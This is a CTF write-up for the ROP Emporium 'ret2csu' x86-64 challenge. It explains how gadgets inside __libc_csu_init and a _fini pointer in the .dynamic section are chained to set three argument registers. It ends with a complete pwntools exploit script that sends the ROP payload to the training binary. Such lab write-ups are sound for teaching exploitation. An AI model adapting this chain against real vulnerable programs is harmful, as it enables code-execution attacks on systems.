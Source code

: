 ```yaml
---
title: ROP x64 Challenge 8
layout: page
permalink: /ROP_emporium/ROP-x64-Challenge-8
status: page
type: page
published: true
comments: true
date: 2022-07-13
---
```

## Challenge 8

And we've reached the end of the road with these challenges and have just one more to do. The task is pretty simple, like before there is a ret2win function in the attached library and we have to call it with specific arguments, `ret2win(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)` to be exact. 

So we remember the registers for arguments go rdi, rsi, and rdx for 1st, 2nd, and 3rd arguments to a function respectively. 

Opening up the binary, we can see that the ret2win function is in the plt, so we don't have to worry about getting offsets to it or anything.

```
pwndbg> plt
0x400500: pwnme@plt
0x400510: ret2win@plt
```

We also see that we can easily control rsi and rdi.

```
pwndbg> ropper -- --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: /root/working/ret2csu/ret2csu_64/ret2csu
0x00000000004006a3: pop rdi; ret; 

pwndbg> ropper -- --search "pop rsi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rsi

[INFO] File: /root/working/ret2csu/ret2csu_64/ret2csu
0x00000000004006a1: pop rsi; pop r15; ret; 
```

However, we can not find any gadgets that affect rdx in the binary. I spent a lot of time here trying to figure this out and got no where, so I ended up reading the paper linked in the challenge: [BlackHat Asia paper](https://i.blackhat.com/briefings/asia/2018/asia-18-Marco-return-to-csu-a-new-method-to-bypass-the-64-bit-Linux-ASLR-wp.pdf) and [this article](https://www.voidsecurity.in/2013/07/some-gadget-sequence-for-x8664-rop.html) by voidsecurity. 

The idea is that automatid tools like ropper don't find every possible gadget and if you know what you are doing you can find gadgets in the boiler plate code that gcc adds to every binary. If you can find useful gadgets in the boilerplate, those gadgets should be in every binary and hence universal.

The boilerplate code we are using for this challenge is the \_\_libc_csu_init function. Which is as follows:

```
   0x0000000000400640 <+0>:     push   r15
   0x0000000000400642 <+2>:     push   r14
   0x0000000000400644 <+4>:     mov    r15,rdx
   0x0000000000400647 <+7>:     push   r13
   0x0000000000400649 <+9>:     push   r12
   0x000000000040064b <+11>:    lea    r12,[rip+0x20079e]        # 0x600df0
   0x0000000000400652 <+18>:    push   rbp
   0x0000000000400653 <+19>:    lea    rbp,[rip+0x20079e]        # 0x600df8
   0x000000000040065a <+26>:    push   rbx
   0x000000000040065b <+27>:    mov    r13d,edi
   0x000000000040065e <+30>:    mov    r14,rsi
   0x0000000000400661 <+33>:    sub    rbp,r12
   0x0000000000400664 <+36>:    sub    rsp,0x8
   0x0000000000400668 <+40>:    sar    rbp,0x3
   0x000000000040066c <+44>:    call   0x4004d0 <_init>
   0x0000000000400671 <+49>:    test   rbp,rbp
   0x0000000000400674 <+52>:    je     0x400696 <__libc_csu_init+86>
   0x0000000000400676 <+54>:    xor    ebx,ebx
   0x0000000000400678 <+56>:    nop    DWORD PTR [rax+rax*1+0x0]
   0x0000000000400680 <+64>:    mov    rdx,r15
   0x0000000000400683 <+67>:    mov    rsi,r14
   0x0000000000400686 <+70>:    mov    edi,r13d
   0x0000000000400689 <+73>:    call   QWORD PTR [r12+rbx*8]
   0x000000000040068d <+77>:    add    rbx,0x1
   0x0000000000400691 <+81>:    cmp    rbp,rbx
   0x0000000000400694 <+84>:    jne    0x400680 <__libc_csu_init+64>
   0x0000000000400696 <+86>:    add    rsp,0x8
   0x000000000040069a <+90>:    pop    rbx
   0x000000000040069b <+91>:    pop    rbp
   0x000000000040069c <+92>:    pop    r12
   0x000000000040069e <+94>:    pop    r13
   0x00000000004006a0 <+96>:    pop    r14
   0x00000000004006a2 <+98>:    pop    r15
   0x00000000004006a4 <+100>:   ret   
```


We see in this function that line 64 sets the rdx redgister to r15 and on line 98 we can control r15 with the pop instruction right before the ret. The problem is that on line 73, there is a relitive call to the function pointed to by \[r12+rbx\*8\]. Now we control r12 (see line 92) and rbp, however that call is double de refrenced. So the execution will continue to happen at \[r12+rbx\*8\] -> address -> start_of_call. So we have to find a do nothing function, which has a function pointer pointing to it somewhere in memory. 

So let's start up the program and break in gdb right before our exploit starts and see if we can find any function pointers to use. In the second article I referenced, I noticed this line, "In \_DYNAMIC variable ie. .dynamic section of executable we can find pointers to \_init and \_fini section." So let's print off the values in dynamic right now.


```
pwndbg> x/30gx &_DYNAMIC 
...
0x600e30:       0x000000000000000c      0x00000000004004d0
0x600e40:       0x000000000000000d      0x00000000004006b4
0x600e50:       0x0000000000000019      0x0000000000600df0
...
```

A couple of those values look familarish. The 400 values are the range of the plt (which we can call, so pointers to functions) and the 600 is around the got (which are pointers to functions). So now we just got to figure out which functions these are.

looking at 0x4004d0 we see
```
pwndbg> tele 0x4006b4 20
00:0000│  0x4006b4 (_fini) ◂— sub    rsp, 8
01:0008│  0x4006bc (_fini+8) ◂— ret    
```
which is basically a do nothing functions which we can call. So if we look at the rest of the function all we have to do is get past the jne on line 84 which is easy enough because we have control over all the registers used in the compare.

   0x0000000000400691 <+81>:    cmp    rbp,rbx
   0x0000000000400694 <+84>:    jne    0x400680 <\_\_libc_csu_init+64>

So now we have everything we need to make the payload.

Note, I'll be using gadgets from the csu init function with just gadget $line_num for notation

```
         | stack          |
         | -------------- | 
32 bytes | start buffer   |
8  bytes | base pointer   | # fill the buffer and base pointer
8  bytes | gadget 90      | # pop everything off rbx, rbp, r12-15      
8  bytes | 0x1            | # rbx value                                         
8  bytes | 0x2            | # rbp value must be 1 more then rbx for the cmp and jump               
8  bytes | addr in dynm   | # r12 the address in dynamic pointing to func pointer to csu_fini
8  bytes | 0xdeadbeef...  | # r13 mapped to edi                                   
8  bytes | 0xcafebabe...  | # r14 mapped to rsi                               
8  bytes | 0xd00df00d     | # r15 mapped to rdx                       
8  bytes | gadget 64      | # the gadget for placing rdx and going through the call
8  bytes | random junk    | # stack pointer is add/sub to 
8  bytes | 0x1            | # we have to redo all the pops to finish out the function
8  bytes | 0x2            |                
8  bytes | addr in dynm   | 
8  bytes | 0xdeadbeef...  |                                   
8  bytes | 0xcafebabe...  |                                
8  bytes | 0xd00df00d     |                       
8  bytes | pop rdi        | # replace the changed rdi value
8  bytes | 0xdeadbeef...  | 
8  bytes | ret2win        | # all values have been placed so we can call ret2win
8  bytes | -------------- |

```


```Python
#!/usr/bin/python3

from pwn import *


write_loc 	= 0x601029
print_file 	= p64(0x400620)
target		= "./ret2csu"
back_junk 	= b"B" * 20
# The amount to fill the buffer
junk = b'A' * 0x20

# The 8 bytes to fill the new base pointer from the leave
new_bp = p32(0xc0deba5e)*2


"""
Place a string (1st arg) into the location
given by the 2nd arg. Note the 2nd arg should be 
packed
"""
import binascii
def print_payload(payload):
	for i in range(0, len(payload), 8):
		continue
		print(binascii.hexlify(payload[i:i+8]))

io = process(target)
first_out = io.clean(0.5).decode("utf-8")
print(first_out)
payload = junk + new_bp
payload += p64(0x0040069a)		# pop everything
payload += p64(0x1)			# rbx val *8 for call
payload += p64(0x2)			# rbp must be 1 more then rbx
payload += p64(0x600e48-8)		# Base of the call, do nothing ptr in dynamic
payload += p64(0xdeadbeefdeadbeef)	# edi through r13
payload += p64(0xcafebabecafebabe)	# rsi through r14
payload += p64(0xd00df00dd00df00d)	# rdx through r15
payload += p64(0x0400680)		# ret call to ptr call


payload += p64(0x0123456789abcdef)	# random junk skipped over
# we have to go through all of the pops again from gaget 1

payload += p64(0x1)			# rbx val *8 for call
payload += p64(0x2)			# rbp must be 1 more then rbx
payload += p64(0x600e48-8)		# Base of the call, do nothing ptr in dynamic
payload += p64(0xdeadbeefdeadbeef)	# edi through r13
payload += p64(0xcafebabecafebabe)	# rsi through r14
payload += p64(0xd00df00dd00df00d)	# rdx through r15


payload += p64(0x04006a3)		# pop edi address
payload += p64(0xdeadbeefdeadbeef)	# edi value

payload += p64(0x400510)		# the ret2win addr

# print("The payload is:")
# print(payload)
print("Payload size is:" + str(len(payload)))

input("Hit enter to apptempt exploit")



print(io.clean(0.5).decode("utf-8"))

input("exploit sent hit enter to end")
io.send(payload)


print(io.clean(0.5).decode("utf-8"))


sleep(1)


f = open('./payload', 'wb')
f.write(payload)
f.close()

```
